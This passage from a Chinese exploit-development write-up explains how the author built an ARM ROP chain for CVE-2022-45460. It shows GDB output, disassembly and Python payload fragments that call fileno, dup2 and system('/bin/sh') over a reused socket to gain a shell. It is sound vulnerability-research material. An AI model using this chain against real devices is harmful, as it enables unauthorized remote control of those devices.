，而 dup2  
 需要一个整数类型的文件描述符，所以还需要额外的一步——调用 fileno()  
 函数来获取相应的文件描述符。因此，这个计划大致如下：  
```
fd = fileno(stream)
dup2(fd, 0)
dup2(fd, 1)
dup2(fd, 2)
system("/bin/sh")

```  
  
然而，在开始构建ROP链之前，我想先验证一下之前的假设。为此，我在第二次调用 fwrite  
 之前设置了一个断点，并在返回语句处设置了另一个断点。当命中第一个断点时，socket_stream  
 的引用应该在R3中（fwrite  
 的第四个参数）。  
  
  
  
  
  
在GDB中，在调用 fwrite  
 之前打印R3寄存器的值。  
  
在第二个断点处，我们可以看到R3中仍然是相同的值，这证实了在触发ROP链时，我们确实有一个指向 socket_stream  
 的引用。  
```
[#32] Id 31, Name:"Sofia", stopped 0xf7fca9fc in pthread_cond_wait (), reason: BREAKPOINT
[#33] Id 32, Name: "Sofia", stopped 0xf7fca9fc in pthread_cond_wait (), reason: BREAKPOINT
[#34] Id 33, Name:"Sofia", stopped 0xf7fca9fc in pthread_cond_wait (), reason: BREAKPOINT
[#35] Id 34, Name:"Sofia", stopped 0xf7fca9fc in pthread_cond_wait(), reason: BREAKPOINT
[#36] Id 35, Name:"Sofia", stopped 0xf7fca9fc in pthread_cond_wait(), reason: BREAKPOINT
[#37] Id 38, Name:"Sofia", stopped 0xf7fc7608 in?(), reason: BREAKPOINT
[#38] Id 39, Name: "Sofia", stopped 0xf7fc7608 in??(), reason: BREAKPOINT
trace
[#0]
[#1] 0x337ea0 →pop {r4, r5, 0xf7e005a4 > fwrite() r6, r7, r8, r9, r10, pc}
(remote) gef> p $r3
$2=0xac88d8
(remote) gef>

```  
  
在GDB中，在触发ROP链之前打印R3寄存器的值。  
  
在这个过程中，我还注意到，在程序停止时，我用于触发断点的 curl  
 命令并没有返回。这意味着连接仍然是打开的。这是个好消息，说明我的假设似乎是成立的。  
  
接下来就是构建ROP链。我继续寻找能够将参数移动到正确寄存器，并按照前面所述调用函数的gadgets。我原本认为每个被调用的函数都会使用 pop {pc}  
 返回，因此不需要担心gadgets和函数调用的链接问题。但我错了，至少部分错误。  
  
虽然 pop {pc}  
 的假设是正确的，但我仍然不能简单地链接这些调用。为什么呢？因为我忽略了函数序言。例如，在查看 fileno  
 函数的汇编序言时可以看到，寄存器R4 - R8被压入栈中。这是为了确保在函数返回时能够恢复这些寄存器（被调用者保存寄存器）。同时，链接寄存器（LR）也被压入栈中。  
```
(remote) gef> disassemble fileno
Dump of assembler code for function fileno:
0×f7e0002c <+0>: push {r4, r5, r6, r7, r8, lr}
0xf7e00030 <+4>: ldr r7,[r0,#72] @ 0×48
0xf7e00034 <+8>: mov r6, r0
0xf7e00038 <+12>: cmp r7,#0
0×f7e0003c <+16>: bne 0×f7e000a8 <fileno+124>
0×f7e00040 <+20>: bl ø×f7ddaea4 <_aeabi_read_tp@plt>
0xf7e00044 <+24>: ldr r8, r0, #1168
0xf7e00048 <+28>: sub r3, [r6, #84]@0x54 @0x490
0×f7e0004c <+32>: cmp r3, r8
0×f7e00050 <+36>: beq 0xf7e0009c <fileno+112> @0×4c
0×f7e00054 <+40>: add r5,r6,#76 0xf7e0009c <fileno+112> @0×4c
0×f7e00058 <+44>: moV r1,#1
0xf7e0005c <+48>: mov r2, r5

```  
  
查看 fileno  
 函数反汇编后的序言。  
  
结合前面讨论的不同跳转指令的知识，这也完全说得通。函数使用 bl  
 指令进行调用，该指令会将LR设置为跳转后紧随的指令地址。这确保了函数退出时，我们能够返回到正确的位置。  
  
然而，对于我构建ROP链的目标来说，这听起来不是个好消息，因为我无法真正控制LR寄存器。我继续寻找能够在跳转到函数之前设置LR的gadgets。尽管这个解决方案对你来说可能很明显，但我花了一晚上才终于意识到，我们可以直接跳过函数序言。这样我就完全不用担心LR中的值了。所以我只需给每个函数符号加上 +0x4  
。问题解决了。  
  
  
  
  
  
唯一的要求是在栈上添加一些填充，以适应函数尾声的操作。对于 fileno  
 函数来说，这意味着总共需要5 x 8字节。事实证明，这非常有用，因为这让我可以将这些寄存器设置为任意值。  
  
我继续将各个部分组合起来。按照计划，我首先调用 fileno  
 函数。  
```
p = b""
p += p32(libc_base + 0xf964)  # mov r0, r3; pop {r4, pc}
p += b"XXXX"  # r4 padding
p += p32(libc_base + 0x3102c + 0x4)  # fileno

```  
  
第一个gadget将套接字引用 socket_stream  
 移动到R0中，以确保它作为参数传递给 fileno  
 函数。调用之后，添加一些填充以正确处理函数尾声。ldmia  
 结构可以看作与前面看到的 pop  
 类似。寄存器R5稍后会用到，所以我提前将 dup2  
 函数的地址存储在那里。  
```
# fileno epilogue: ldmia sp!,{r4,r5,r6,r7,r8,pc}
p += b"XXXX"  # r4 padding
p += p32(libc_base + 0xce5c + 0x4)  # r5 -> dup2
p += b"XXXX"  # r6 padding
p += b"XXXX"  # r7 padding
p += b"XXXX"  # r8 padding

```  
  
接下来是调用 dup2  
 函数。为了实现目标，这个函数需要针对标准输入、标准输出和标准错误各调用一次。对于这三次调用，R0始终应该设置为通过 fileno  
 函数获取的文件描述符，而R1则从0开始，然后是1，最后是2。第一次调用时R1已经被设置为0，所以这次调用无需额外操作。  
```
p += p32(libc_base + 0xce5c + 0x4)  # dup2, r1 = 0
# dup2 epilogue: ldmia sp!,{r7,pc}
p += b"XXXX"  # r7 padding

```  
  
对于第二次调用，我找到了一个gadget，它在跳转到我已经存储 dup2  
 函数地址的R5之前，会将1移动到R1中。  
```
p += p32(libc_base + 0x1cdcc)  # mov r1, #1; mov r2, r6; blx r5
# dup2 epilogue: ldmia sp!,{r7,pc}
p += b"XXXX"  # r7

```  
  
遗憾的是，我没有找到适合第三次调用的可行gadget。现在，剩下要做的就是复用第一个简单漏洞利用代码中的ROP链来生成一个Shell。  
```
p += p32(libc_base + 0x175cc)  # pop {r3, pc};
p += p32(libc_base + 0x535e8)  # system
p += p32(libc_base + 0x368dc)  # mov r0, sp; blx r3

```  
  
终于，到了测试的时候。  
  
  
  
  
  
通过复用连接实现带Shell的最终漏洞利用。  
  
成功了！这比第一次尝试的方案优雅得多。无需启动telnetd服务器，也无需建立反向Shell！  
  
最终的漏洞利用源代码可以在文末找到。  
## 总结  
  
正如在文章中提到的，在开发完这个漏洞利用代码后我才发现，这里讨论的漏洞早已被识别并追踪为CVE-2022-45460。也已经存在一个利用栈上Shellcode实现RCE的漏洞利用代码。  
  
公众号回复CVE-2022-45460  
获取POC  
  
   
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原始披露 URL 尚未确认，现有链接按来源追溯区分别标注）
